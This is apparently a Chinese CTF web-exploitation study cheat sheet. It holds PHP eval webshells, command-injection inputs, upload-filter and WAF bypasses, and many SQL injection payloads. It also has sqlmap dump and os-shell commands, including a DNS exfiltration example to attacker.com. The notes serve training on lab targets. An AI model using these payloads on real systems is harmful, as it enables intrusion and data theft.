




[TOC]

## 环境准备
Firefox + 插件 proxy, hackbar

Chrome + 插件 proxyomega + hackbar

    点击 Load URL, √Post data, 修改对应的字段
    点击 Execute

扫描工具
    
    wscan，ctf-wscan dirsearch之类的

## 解题思路

注意文件上传马尽量UTF8编码

1. 看源码，有什么提示。
2. F12 看控制台有什么提示。从控制台看源码之类的。提示。
1. 查看 robots.txt, index.php, flag.php, index.php~, 当前页 php
2. 如果提供了文件，可以百度下文件名， 可能有信息
3. 使用 file_get_contents 获取 index.php 看源码。
2. burpsuit 查看 request 和 response, response一定也要看
3. burpsuit 抓包拦截看参数有没有 admin 或flag之类
2. F12查看源码，source, 查找关键字 password, key ,flag
3. 以指定端口访问  curl web.jarvisoj.com:32770 --local-port 51
4. 本地登录, locally, bp抓包，在上方添加,  X-Forwarded-For: 127.0.0.1
5. 必须来自https://www.google.com -- bp抓包在上方添加, Referer:https://www.google.com
5. 以管理员登录 请求时添加 admin=1, isadmin=1
6. 未使用waf过滤时,比如ping输入框 , 见网鼎杯nmap

        127.0.0.1 && find / -name "*.txt"
        -c 3 -c 1 127.0.0.1 && cat /home/flag.txt

5. xxe 漏洞 获取文件,比如API请求的题
6. sql md5 加密注入
7. 源码泄露。扫描，可能发现些什么，index.php~
8. 过waf

    1. var_dump(scandir(/))
    2. 序列化
    3. 特殊字符绕过使用 <>，*，select，%，反引号，||，&, \
    3. `preg_match('/^[a-z0-9_]*$/isD',$act)` 绕过使用?act=\create_function&arg=){}system("ls");//
    4. 绕过 wakeup 见后面
    5. 绕过 php关键字 --- <?php 换成 <?= @eval($_POST["pd"]);?> -oG pd.phtml '
    6. 绕过 后缀黑名单 phtml .phps .php5 .pht, 见后面对apache设置
    6. 命令行注入escapeshellarg, escapeshellcmd,  `?host=' <?php @eval($_POST["hack"]);?> -oG hack.php '`

8. sql
    
    1. union注入的使用
    1. 0x1 SQL 整数型注入
    1. 0x2 SQL 字符串型注入
    1. 0x3 SQL 报错注入
    1. 堆叠注入 `1;show databases;`,`1;show tables;`, `*,1`

9. php 相关

    1. 弱类型 "1b" == 1
    2. md5 hash相同
    3. 空数组, sha1加密相同
    4. 获取文件内容 php://filter/
    5. 文件上传
        
        6. .user.ini 绕过
        7. 脚本语言绕过 `<script language='php'> phpinfo();</script>`
    6. phar反序列化漏洞


10. ssti

        只给hello guest, 试试 ?name=123, ?name={{config}}, 可能是jwt要伪造admin

### 学习参考链接 Wiki

[CTF中Web题目的常见题型及解题姿势](https://mp.weixin.qq.com/s/b3NJgwh9_fR4BW-hKc0idA)

[渗透测试中如何快速拿到Webshell](https://mp.weixin.qq.com/s/4o3IRc_vC9jSW12Sf-6taA)

[CTF web 题型解题技巧-第一课 思路讲解](https://mp.weixin.qq.com/s/QGjP8mHz3ZYVlgQqEGawjw)

[CTF web 题型理论基础篇-第二课 理论基础](https://mp.weixin.qq.com/s/aJg-qVl9ZAZ3b2UfW2uL1Q)

[CTF web 题型流量分析-第三课 （ctf 之流量分析） 工具使用-流量分析](https://mp.weixin.qq.com/s/LVGBp9rzjGoQ-4zwJvDFLQ)

[CTF web 题型解题技巧-第四课 web总结](https://mp.weixin.qq.com/s/Yc2bZmVPO-akMCLKxfdAwQ)

[CTF web 题型总结 第五课-- CTF WEB 实战练习（一）](https://mp.weixin.qq.com/s/-xOlhBiOZF1FIvRXqH8eHQ)

[CTF web题型总结-第六课 CTF WEB实战练习(二)](https://mp.weixin.qq.com/s/Smz8azjp7F5oeyQkz5YM8w)

[CTF web题型总结-第七课 CTF WEB实战练习(三)](https://mp.weixin.qq.com/s/y9sbf1VV-JCtSQGYxTHdxw)

[SQL注入基础整理及Tricks总结](https://www.anquanke.com/post/id/205376)  [Link2](https://mp.weixin.qq.com/s/vdUoQU2WS7zf0EKHFYKNvg)

[闲谈Webshell实战应用](https://mp.weixin.qq.com/s/xKB64su2gJJ51ZKEF0PSKg)

[Getshell | 文件上传绕过整理](https://mp.weixin.qq.com/s/DpZyReQenYwg-5F_tx2u8A)

### php解题思路
1. 构建shell，看phpinfo

```php
    @$this->x()['Ginkgo'];
    $this->decode = @base64_decode( $this->code );
```
比如这样的构建 `eval($_POST['a']);` 转base64 => ?Ginkgo=ZXZhbCgkX1BPU1RbJ2EnXSk7 ,用蚁剑连这个地址。

构建 `a=phpinfo();` ，用hackbar post出去 `a=phpinfo();` 注意分号。

2. 绕过读取文件
    
[exp.php](https://github.com/mm0r1/exploits/blob/master/php7-gc-bypass/exploit.php)

修改一行 `pwn("/readflag");`

### 过waf等过滤
添加空格绕过，如[Web-[RoarCTF 2019]Easy Calc](https://www.cnblogs.com/gaonuoqi/p/11890094.html),限制了num，waf并没有限制'  num'，当php解析的时候，又会把'   num'前面的空格去掉在解析，利用这点来上传非法字符

    ? num=1;var_dump(scandir(chr(47))) // scandir(/)
    ? num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))) # flagg

1. \指命名空间, 有的版本可用。Linux下可以添加 \ 来过, 比如 \system = system, ca\t = cat
```
POST
http://d0ee41d4-e9af-43bb-99e7-e3adcf19757d.node3.buuoj.cn/index.php?func=\system&p=find / -name flag*
```

2. 先序列化 echo serialize($a), 然后提交反序列化的内容

``` php
<?php
class Test {
    var $p = 'ls /';
    var $func = 'system';
}
$a = new Test;
echo serialize($a);
?>
// O:4:"Test":2:{s:1:"p";s:4:"ls /";s:4:"func";s:6:"system";}
// 比如func和p, 提交 func=unserialize&p=O:4:"Test":2:{s:1:"p";s:4:"ls /";s:4:"func";s:6:"system";}
```

常用方法

    "highlight_file","show_source","readfile","file_get_contents"
    "exec","shell_exec","system","passthru","proc_open","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents", "unserialize"

    windows下 type flag.php
    Linux      cat flag.php

### 查找flag的命令

`cat /*/flag; cat/*/*/flag; cat/*/*/*/flag`

`grep -r flag /`

## 发送请求

`curl -v -X CTFHUB http://challenge-d8eeddbeb7a64576.sandbox.ctfhub.com:10080/index.php`


## 上传webshell, 过验证

__0x1 前端验证__

使用同名方法覆盖。或者bp发送时拦截改名。

__0x2 检查Content-type__

上传允许的类型，bp拦截,改名为webshell名。

__0x03黑名单绕过__

不允许上传.asp,.aspx,.php,.jsp后缀文件，但是可以上传其他任意后缀。比如说:.phtml .phps .php5 .pht，但如果上传的是.php5这种类型文件的话，如果想要被当成php执行的话，需要有个前提条件，即Apache的httpd.conf有如下配置代码

    AddType application/x-httpd-php .php .phtml .phps .php5 .pht .jpg

__0x04 .htaccess绕过__
此处黑名单没有过滤.htaccess后缀，故此处也可上传.htaccess文件进行绕过。
注: .htaccess文件生效前提条件为1.mod_rewrite模块开启。2.AllowOverride All

__Pass-05 大小写绕过__

没有将文件名统一转成小写，故可以通过大小写绕过

用burp将后缀改为大写PHP即可

__Pass-06 空格绕过__

可以看到，相比于上面Pass-05代码，这里将文件后缀名统一进行了小写转换，但是没有去除文件名首尾的空格。所以此处可以利用windows系统的命名规则进行绕过

Win下xx.jpg[空格] 或xx.jpg.这两类文件都是不允许存在的，若这样命名，windows会默认除去空格或点

此处会删除末尾的点，但是没有去掉末尾的空格，因此bp上传一个.php[空格]文件即可

修改文件后缀为1.php .这种形式，从代码执行流程分析来看，会先去除文件名末尾的.,去除之后的文件后缀是 .php[空格]，利用.php[空格]绕过黑名单，然后利用windows的文件命名规则默认除去空格和.,达到上传.php的目的。

__Pass-07 点绕过__

从代码上看，可以发现相比于Pass-06代码，加上了首尾去空，但是却少了尾部去点。故和上面Pass-06一样，利用windows文件命名规则绕过。

__Pass-09 点空格点绕过__

可以看到，这里代码的安全性比之前的都要更高，黑名单类型全，大小写经过转换，去除了文件名末尾的点，去除了文件名尾空格，还去除了::$DATA。。但是，这里还是可以绕过的。这里的代码逻辑是先删除文件名末尾的点，再进行首尾去空。都只进行一次。故可以构造点空格点进行绕过，也就是后缀名改为xx.php. .，也是利用了Windows的特性。
也就是说，如果从第三关到第九关，如果目标服务器是windows系统的话，均可用点空格点绕过。

绕过方法
将后缀名改为xx.php. .即可

## Sql 

了解以下几项

    - 1.万能注入
    - 2.union注入
    - 3.堆叠注入
    - 读取数据 见0x10
    - 绕过字符  /**/替换空格, 用<a>无意义填充过waf

1. 在用户名或密码处加引号测试

        http://[极客大挑战 2019]EasySQL/check.php?username=admin'&password=11
        报错 猜测  select * from users where name='$username' and passwd='$password';

PHP 优先级从高到低是：&&、||、and、or。

        $a || $b and $c || $d
        //相当于
        ($a || $b) and ($c || $d)

构造 username=admin or 1=1 和 passwd=admin or 1=1即可

        payload：?username=admin' or '1'='1&password=123' or '1'='1
        替换后:   name='admin' or '1'='1' and passwd='123' or '1'='1';

其他万能密码, 有时不能为空（过滤了空字符）

    uname=1' or 1=1 #&passwd=any
    uname=1' or '1=1'#&passwd=any
    select * from user where uname = '222' and upass = '222' 
    select * from user where uname = '222' and upass = '222' or 1=1
    select * from user where uname = '222' and upass = '222' or '1=1#'
    select * from user where uname = '222' and upass = '222' or '1'='1'

过滤空格, 用/**/代替
    
    先输入1，再输入1'，页面报语法错误，再输入1 '页面出现SQLi detected!，推出空格被它过滤了
    '/**/or/**/id=4/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1

#### 0x1 SQL 整数型注入
https://blog.csdn.net/weixin_44732566/article/details/104340658

默认sql: select * form news where id=?

0.查数据库

payload:`2343 union select database(),2`

    返回sqli
    id=2343在数据库中是不存在的，所有返回NULL，因为前端页面只有ID，Data两处地方可以回显数据
    这样union select查询的数据就可以回显了

然后就是information_schema三步

1.查表名

    select * from news where id=2343 union select group_concat(table_name),3 from information_schema.tables where table_schema='sqli'
    返回flag

2.查字段名
    
    select * from news where id=2343 union select group_concat(column_name),3 from information_schema.columns where table_name='flag'
    返回字段flag

3.查数据

    select * from news where id=2343 union select flag,3 from sqli.flag
    返回目标值

一、常用函数

    1、database()：当前网站使用的数据库
    2、version()：当前MySQL版本
    3、user()：当前MySQL的用户

二、MySQL默认有“information_schema”的数据库，该库中有三个表名：

    1、SCHEMATA：存储该用户创建的所有数据库的库名，记录库名的字段为SCHEMA_NAME。
    2、TABLES：存储该用户创建的所有数据库的库名和表名，记录库名和表名的字段为TABLE_SCHEMA和TABLE_NAME。
    3、COLUMNS：存储该用户创建的所有数据库的库名、表名和字段名，库名、表名和字段名为TABLE_SCHEMA、TABLE_NAME和COLUMN_NAME。

##### union注入 
三、union注入

    # 是行注释
    union操作符将两个SQL查询语句连接了起来，当设置id参数为-1时，由于没有id=-1的数据，因此会返回union后的查询语句的结果。

    select * from line_tour where id=-1 union select database(),2;
        select database(),2 是两列，前面的结果也要是二两列能返回结果

    select * from line_tour where id=-1 union select database(),2,3,4,5,6,7;

__select 和union的列数要相同才会返回结果__


#### 0x2 SQL 字符串型注入

测试注入，有没回显或错误
    
    1' and 1=1#

order by x找出该数据表的字段数量
    
    1' order by 1#，1' order by 2#，返回结果相同，输入1' order by 3#返回结果不同，证明字段数为2。

爆数据库名
    
    payload: -1' union select database(),2#
    select * from news where id='-1' union select database(),2#

1.查表名

    -1' union select group_concat(table_name),2 from information_schema.tables where table_schema='sqli'#
    select * from news where id='-1' union select group_concat(table_name),3 from information_schema.tables where table_schema='sqli'#
    返回news,flag

2.查字段名
    
    -1' union select group_concat(column_name),2 from information_schema.columns where table_name='flag'#
    select * from news where id='-1' union select group_concat(column_name),2 from information_schema.columns where table_name='flag'#'
    返回字段flag

3.查数据

    -1' union select flag,1 from sqli.flag#
    select * from news where id='-1' union select flag,1 from sqli.flag#'
    返回目标值

#### 0x3 SQL 报错注入


https://www.cnblogs.com/anweilx/p/12464859.html
https://www.cnblogs.com/Cl0ud/p/12419200.html
https://blog.csdn.net/qq_45653588/article/details/106342571
https://blog.csdn.net/weixin_44732566/article/details/104417351

测试

    1#
    select * from news where id=1#
    查询正确 => 判断出为整形的报错注入

查询数据库名

    1 Union select count(*),concat(database(),0x26,floor(rand(0)*2))x from information_schema.columns group by x;
                                                                   // from information_schema.columns 可以是别的，但一定要有数据
    select 1 Union select count(*),2 group by concat(database(),floor(rand(0)*2)); //简化版
    看有几列填几个数
    1 Union select count(*),concat(database(),0x26,floor(rand(0)*2))x from information_schema.columns group by x;
    select 1 Union select count(*),concat(database(),0x26,floor(rand(0)*2))x from information_schema.columns group by x;
    select 1 Union select count(*),concat((查询语句),0x26,floor(rand(0)*2))x from information_schema.columns group by x;
    select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a;

查表名

    select 1 Union select count(*),concat((select table_name from information_schema.tables where table_schema='sqli' limit 0,1),0x26,floor(rand(0)*2))x from information_schema.columns group by x
    select 1 Union select count(*),concat((select table_name from information_schema.tables where table_schema='sqli' limit 1,1),0x26,floor(rand(0)*2))x from information_schema.columns group by x
    多个表需要挨个试验

查字段名

    1 Union select count(*),concat((select column_name from information_schema.columns where table_name='flag' limit 0,1),0x26,floor(rand(0)*2))x from information_schema.columns group by x
    返回flag

查数据
    
    1 Union select count(*),concat((select flag from flag limit 0,1),0x26,floor(rand(0)*2))x from information_schema.columns group by x
#### 0x10读取文件

load_file配合mid

    select load_file('E:\flag.txt')
    select ascii(mid((select load_file('E:\flag.txt')),1,1));
    select ascii(mid((select load_file('E:\flag.txt')),2,1)); -- 1,2,3逐位读取再转换成字符


直接注入表读取

    create table abc(cmd text);
    insert into abc(cmd) values (load_file('E:\flag.txt'));
    select * from abc;

### 工具
### sqlmap
#### sqlmap manual

[SQLMap命令详解及使用操作](https://blog.csdn.net/yinghua1234/article/details/105999231?utm_source=app)

[tamper](https://securityonline.info/sqlmap-tamper-script-bypassing-waf/)

将请求保存成3.txt

sqlmap  -r 3.txt --technique T --level 3 --tamper=space2comment

sqlmap  -r 3.txt --technique T --level 3 --tamper=space2comment -D injection -T admin --dump

sqlmap -u "http://xx"

sqlmap -u "http://可能注入的某个提交参数的url" --cookie="这次提交的cookie"

    浏览器url栏输入 javascript:document.cookie或者在console栏中输入document.cookie即可获得cookie

查看 database

    sqlmap -u http://ctf5.shiyanbar.com/web/index_2.php?id=1 --tamper "space2comment.py" --current-db
    # web1

查看表

    sqlmap -u http://ctf5.shiyanbar.com/web/index_2.php?id=1 --tamper "space2comment.py" -D web1 --tables

查看列

    sqlmap -u http://ctf5.shiyanbar.com/web/index_2.php?id=1 --tamper "space2comment.py" -D web1 -T flag --columns
    # 遇到提示选y

查看flag信息

    sqlmap -u http://ctf5.shiyanbar.com/web/index_2.php?id=1 --tamper "space2comment.py" -D web1 -T flag -C flag --dump


--technique

指定sqlmap使用的检测技术，默认情况下会测试所有的方式。

  Boolean-based blind

  Error-based

  Union query-based

  Stacked queries(对文件系统、操作系统、注册表操作时，必须指定该方式)

  Time-based blind

--time-sec

设置延迟时间，基于时间的注入检测默认延迟时间是5秒

--union-cols

联合查询时默认是1-10列，当level=5时会增加到测试50个字段数，可以使用此参数设置查询的字段数。

--union-char

默认情况下sqlmap针对UNION查询的注入会使用NULL字符；

有些情况下使用NULL字符会造成页面返回失败，而使用一个随机整数是成功的，可以使用--union-char指定UNION查询的字符。

--dns-domain

攻击者控制了某DNS服务器，使用此功能可以提高数据查询的速度

例如：--dns-domain="attacker.com"

--second-order

有些时候注入点输入的数据，返回的结果并不是当前页面，而是另外一个页面。

使用此参数指定到哪个页面获取响应判断真假，--second-order后面跟一个判断页面的URL地址。例如：

--second-order="http://1.1.1.1/a.php"


[SQLMap中tamper的简介](https://blog.csdn.net/Litbai_zhang/article/details/99681398)
#### sqlmap 常用方法

常用方法

    1.查数据库
        python sqlmap.py -u http://challenge-b6a3a184decf6636.sandbox.ctfhub.com:10080/?id=1 --batch --dbs
        python sqlmap.py -u http://challenge-b6a3a184decf6636.sandbox.ctfhub.com:10080/?id=1 --batch --current-db
    2.查表名
        python sqlmap.py -u http://challenge-b6a3a184decf6636.sandbox.ctfhub.com:10080/?id=1 --batch -D sqli --tables
    查字段
        python2 sqlmap.py -u http://challenge-b6a3a184decf6636.sandbox.ctfhub.com:10080/?id=1 --batch -D sqli -T flag --columns
    4.查数据
        python sqlmap.py -u http://challenge-d20f8ccada64b868.sandbox.ctfhub.com:10080/?id=1 --batch -D sqli -T flag -C flag --dump

sqlmap -u "http://xxx" --batch
    
    之后写入同样的命令加参数
    -u URL
    --batch 自动测试，不提示
    --current-user
    --current-db
    --dump
    --os-shell
    -D tourdata --tables # 所有表
    -D tourdata -T userb --columns # 表字段
    sqlmap.py -r Filename.txt --dbs --level=3
    sqlmap -u http://x.x/show.php?id=35 --level=3 -D test --tables -C thekey --dump


使用http请求文件

    可以用burpsuite抓包并复制到txt文件（注意请用gedit编辑器，vim会因为格式问题报错）
    sqlmap -r 1.txt
    2.使用burpsuite log文件 （勾选上options中的Misc中的proxy）
    sqlmap -l log.txt

### sql 堆叠注入

堆叠注入 [BUUCTF [SUCTF 2019]EasySQL](https://blog.csdn.net/qq_42158602/article/details/103930598), [WP2](https://www.cnblogs.com/chrysanthemum/p/11729891.html) `select $_GET['query'] || flag from flag`

    1;show databases; 
    1;show tables;  

在oracle 缺省支持 通过 ‘ || ’ 来实现字符串拼接，

mysql 缺省不支持。需要调整mysql 的sql_mode模式：pipes_as_concat, 将||视为字符串的连接操作符而非或运算符

    1;set sql_mode=PIPES_AS_CONCAT;select 1
    非预期，没有过滤*直接注入*
    *,1

字符串或时前面的数字时结果为1则返回1，为0则返回0，效果跟直接*一样




2

    'or 1=1#             //
    1'order by 2#         //只有2字段。
    1'union select 1,2#         //返回一个正则过滤 return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
    想到堆叠注入，试一下，
    1';show tables;#            // 有我们要的字段

        array(1) {
          [0]=>
          string(16) "1919810931114514"
        }
    0'; show columns from words ;#


### sql 盲注

__知识点__

页面只返回True（密码错误）或False（用户名错误），考察SQL盲注。

解题步骤 http://web.jarvisoj.com:32787/login.php

    admin                       //尝试admin提示密码错误，其他用户名均提示用户名错误
    'or 1=1#                    //提示用户名错误，过滤了空格或or
    'or/**/1=1#                 //提示密码错误，确定过滤了空格
    'or/**/ascii(substr(database(),1,1))>1#     //提示密码错误，可以开始爆破了
    
    使用username=admin’#&password=123456,页面返回密码错误，说明后台没有对#和’进行过滤。
    使用username=admin’ or 1=1#&password=123456，页面返回用户名错误，上面后台对admin’ or 1=1#中的部分内容进行了过滤。过滤的内容有可能是or也有可能是空格。
    使用username=user’//or//1=1#&password=123456，页面返回密码错误，说明输入的SQL语句能够被执行，这也表明后台仅仅是过滤了空格。
    总结，username存在sql注入，同时仅仅只是过滤了空格，那么就是一个盲注了

    整个PoC就是一个基于错误的盲注的步骤了，具体的方法可以参考文章。

    查找表，username=user’//or//exists(select////from/*/admin)#&password=123456,页面返回密码错误，那么就说明在数据库中存在admin表
    查找字段username=user’//or//exists(select//username,password//from/**/admin)#&password=123456，页面返回密码错误，说明在admin表中存在username和password字段。
    username=user’//or//exists(select//count()//from/*/admin)#&password=123456，页面返回密码错误，说明在admin表中仅仅只存在一条记录，接下来就好办了
    得到password长度，username=user’//or//(select//length(password)//from/**/admin)>10#&password=123456，通过二分试探法，最终发现password的字段长度是32位，说明可能采用的是md5的方式来进行加密的。
    在确定了password的长度之后，接下来就是利用Python来进行爆破了。

    username=user'/**/or/**/exists(select/**/username,password/**/from/**/admin)#&password=123456

方法2, 
username=any'/**/union/**/select/**/'c4ca4238a0b923820dcc509a6f75849b'#&password=1

    # c4ca4238a0b923820dcc509a6f75849b 是 1 的md5 (password=1所以用1)
    # username 随意写
### 常用语句

where id = 1 and 1=1

where id = 1 and 1=2

1有结果，2没结果，上面两句确定数据库是否执行。

select * from user where id = 1 and 1=1 union select flag from flag, union需要前后列一样。

使用orderby 看几次没结果确定列数。

    union select 1,2,3          ---是列数
    http://192.168.100.111/web/web15/?id=1 Order by 3  , 确定了是3列。
    http://192.168.100.111/web/web15/?id=1 Order by 4  , 没有结果。
    
    前面没结果时显示后面的结果。用-1 或者 and 1=2
    http://192.168.100.111/web/web15/?id=-1 Union Select 1,2,3
    http://192.168.100.111/web/web15/?id=-1 Union Select database(),2,3     --查询库名
    http://192.168.100.111/web/web15/?id=-1 Union Select database(),user(),3     --查询用户名
    http://192.168.100.111/web/web15/?id=-1 Union Select database(),user(),version()     --查询数据库版本
    http://192.168.100.111/web/web15/?id=-1 Union Select database(),user(),version()     --查询数据库版本
    INFORMATION_SCHEMA 数据库保存 库，表的信息。
      SCHEMATA 库名
      TABLES  有两列，一列所有库，二列所有库的所有表。
      COLUMNS 全部库的表的列
    
    --有问题 http://192.168.100.111/web/web15/?id=-1 Union Select TABLE_NAME,2,3 where table_schema = database()     --查询数据库表名
    --有问题 http://192.168.100.111/web/web15/?id=-1 UNION SELECT TABLE_NAME,2,3 FROM INFORMATION_SCHEMA WHERE TABLE_SCHEMA = DATABASE() 

### sql md5 加密注入
方法1 

ffifdyop 撞

`抓包的 Response Hint: "select * from `admin` where password='".md5($pass,true)."'"`

* PS：为什么要输入ffifdyop呢？

* 根据此题中的password的语句：`select * form admin where password=''`
进行password的绕过，需将此语句填充为：`select * form admin where password=''or 1`，又因为此题有md5加密，并转换为字符串，所以根据前人，大师傅们的总结，有：

    字符串：`ffifdyop`

    md5加密后：`276f722736c95d99e921722cf9ed621c`

    转换为字符串：`'or'6<乱码>`
    那么，拼接后的语句为：`select * from admin where password=''or'6<乱码>'`，就相当于 `select * from admin where password=''or 1` ,实现sql注入。

---
方法2

Google 了一下 `sql injection php md5`，发现了有趣的东西，下面就放一个串就好。

    password: 129581926211651571912466741651878684928
    
    raw: ?T0D??o#??'or'8.N=?

### 扩展MySQL函数------ UDF

udf是mysql自定义函数包，

udf.so用于linux系统，udf.dll用于windows系统。

有时候我们需要对表中的数据进行一些处理而内置函数不能满足需要的时候，就需要对MySQL进行一些扩展，使用者自行添加的MySQL函数就称为UDF(User Define Function)。

做法就是

    $ mysql
    > select @@plugin_dir;
得到插件的目录，将 udf.so 拷贝过去，然后再

    $ mysql
    > create function getflag returns string soname 'udf.so';
    > select help_me();
    > select getflag();


### 知识点

反引号可可以注入``

### SQL约束攻击
  字符串末尾的空格符将会被删除。换句话说"vampire"等同于"vampire "，构造"admin   "作为admin登录
### 注入测试 

%20就是空格

测试
    
    http://web.jarvisoj.com:32794/index.php?table=test` `union select 1 limit 1,1

数据库名

    http://web.jarvisoj.com:32794/index.php?table=test` `union select group_concat(table_name) from information_schema.tables where table_schema=database() limit 1,1

表名
    
    http://web.jarvisoj.com:32794/index.php?table=test` `union select group_concat(table_name) from information_schema.tables where table_schema=database() limit 1,1
    # 得到所有表名 secret_flag,secret_test

列名

    http://web.jarvisoj.com:32794/index.php?table=test` `union select group_concat(column_name) from information_schema.columns where table_name=0x7365637265745f666c6167 limit 1,1

flag
    
    http://web.jarvisoj.com:32794/index.php?table=test` `union select flagUwillNeverKnow from secret_flag limit 1,1

## 练习

http://192.168.100.111/web/web3/index.php#

### 题目3： 提交php版本号

    1. F12， 提交请求后， 在F12-网络中 查看POST信息。找到版本。
    2. 提交后仍然不对， 找源代码，比如 index.php.bak / robots.txt 或者用扫描器扫一下。
    3. php中提示了使用的是Get方法提交的name=ver的值，直接发请求或者修改对应的源码
### 题目4： 找到 admin page -- 熟悉robots.txt作用

    1. 直接进 robots.txt --- 此文件记录相关的文件夹
    2. 提示进入 login.php 得到 flag
### 题目5: 模拟本机登录 

    http://192.168.100.111/web/web5/ 
    1. BurpSuite配置代理 127.0.0.1:8080, Firefox使用Proxy插件设置好代理地址。使用BP抓包，Action发送到repeater
    2. 在Repteater中的raw中修改，X-Forwarded-For:127.0.0.1，点击Go
    3. 提示不是管理员，修改 isadmin=1，点击Go
    3. Cookie: isadmin=1
### 题目6: 暴破

    http://192.168.100.111/web/web6/
    1. 源码看到password.txt，. 拿到字典，随便发一下抓包，发现明文传输。
    2 .暴破：发送到 Intuder
    3. 选好字典，设置好线程，start attack
    4. 得到密码后，登录，抓包，Set-Cookie: newpage=MjkwYmNhNzBjN2RhZTkzZGI2NjQ0ZmEwMGI5ZDgzYjkucGhw; ，base64解码，得到下一页面。
    islogin常用值：guest, root, admin, black, 
### 题目8: 伪协议

    http://192.168.100.111/web/web8/
    看源码，需要上传文件为指定内容。
    url: http://192.168.100.111/web/web8/?user=php://input
    post: welcome to the Bili's world
    hackbar需要有参数，使用bp抓包。
    发到Repeater,然后删掉相关的参数key。只保留数据。（如果被转码了需要手动恢复。)
### 题目9: 伪协议

    http://192.168.100.111/web/web9/
    输入框中: php://filter/read=convert.base64-encode/resource=[文件路径]
    输入框中: php://filter/read=convert.base64-encode/resource=index.php
### 题目10: 伪协议

    http://192.168.100.111/web/web10/
    看源码后，get提交user传入内容为文件的 welcome to the venus'world 。。
    1. http://192.168.100.111/web/web10/?user=data:text/plain,welcome to the venus'world
    2. http://lab1.xseclab.com/?^.^=data://text/plain;charset=unicode,%28%E2%97%8F%27%E2%97%A1%27%E2%97%8F%29  # 放入hackkbar执行
    查看源码 ,file 传入hint.php 使用filter查看内容
    2. http://192.168.100.111/web/web10/?user=data:text/plain,welcome to the venus'world&file=php://filter/read=convert.base64-encode/resource=hint.php
    3. 源码找到f1a9.php 读取文件 file=php://filter/read=convert.base64-encode/resource=f1a9.php 


    使用php在Flag类创建对象
    $a = new Flag()
    $a -> file = 'fal9.php'
    echo serialize($a);
    
    放在php环境自己执行下？
### 题目13: sql 注入

    http://192.168.100.111/web/web13/
    页面上有源码， 查看关键sql语句。 pw有做过滤。 user没有--从user下手。 用户名处直接注释掉
### 题目15: sql 注入

    绕过 and , or
    http://192.168.100.111/web/web15/?id=1
    源码用了 strip_tags，通过添加<>标签绕过。
    方法1: http://192.168.100.111/web/web15/?id=1 a<>nd 1=1
    方法2: http://192.168.100.111/web/web15/?id=1 AND 1=1 , 大小写未过滤
### 题目： php相关

    php中的弱类型比较：字符和数字比较时 字符当作0处理
    5.x版本中 (int)3.1e10 会省略为3 ， 
    7.x版本中是 3100000000

  0， null, !== false, ==false     ---  !==不全等

验证码相关

    1. 有的能直接使用上次的验证码暴破
    2. 有时验证码为空也可发送
    
    验证码发布的流程
    1. 显示表单
    2. 显示验证码（调用生成验证码的程序），将验证码加密后放进 session 或者 cookie
    3. 用户提交表单
    4. 核对验证码无误、数据合法后写入数据库完成
    用户如果再发布一条，正常情况下，会再次访问表单页面，验证码图片被动更新， session 和 cookie 也就跟着变了
    但是灌水机操作不一定非要使用表单页面，它可以直接模拟 post 向服务端程序发送数据，这样验证码程序没有被调用，当然 session 和 cookie 存储的加密验证码就是上次的值，也就没有更新，这样以后无限次的通过post直接发送的数据，而不考虑验证码，验证码形同虚设！
    所以，在核对验证码后先将 session 和 cookie 的值清空，然后做数据合法性判断，然后入库！这样，一个漏洞就被补上了！


## PHP 相关
### 环境配置 

PHP加入path变量。

cd 项目目录
php -S localhost:80


phpstorm调试
```
[xdebug]
zend_extension="e:/Program files/php/ext/php_xdebug-2.9.6-7.4-vc15-x86_64.dll"
#一定要用绝对路径
xdebug.remote_enable = On
xdebug.remote_handler = dbgp
xdebug.remote_host= localhost
xdebug.remote_port = 9000
xdebug.idekey = PHPSTORM
```


### 基础
1. 弱类型比较

        旧版本的　PHP,  "1b" == 1 -> true，弱类型字符串直接会转数字，去掉后面的b
        == 非严格比较， 先类型转换再比较
        === 会进行类型比较 "1b" === 1 -> false

